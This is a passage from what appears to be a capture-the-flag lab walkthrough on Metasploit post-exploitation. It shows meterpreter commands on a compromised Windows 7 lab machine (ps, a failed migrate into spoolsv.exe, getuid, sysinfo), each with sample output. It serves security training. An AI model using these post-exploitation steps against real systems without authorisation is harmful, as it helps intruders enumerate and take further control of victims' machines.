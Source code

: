 - List out options using `help` within `meterpreter`. It'll grow over time with the more modules we use
- We're in the shell of the victim machine. List processes with `ps`. What's the name of the `spool` service [`spoolsv.exe`]

```
Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]
 4     0     System
 ...
 1260  692   spoolsv.exe
 ...

```

- Move into the `spool` service. What command do we use to try to move? (It'll fail) [`migrate`]
  
```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2304 to 1260...
[-] Error running command migrate: Rex::RuntimeError Cannot migrate into this process (insufficient privileges)
```

- What command can we use to find out more about the current user running the process we're in? [`getuid`]

```
Stdapi: System Commands
=======================
...
    getuid        Get the user that the server is running as
...
```

```
meterpreter > getuid
Server username: Dark-PC\Dark
```

- What command do we use to find more info about the machine? [`sysinfo`]

```
Stdapi: System Commands
=======================
...
    sysinfo       Gets information about the remote system, such as OS
...
```

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
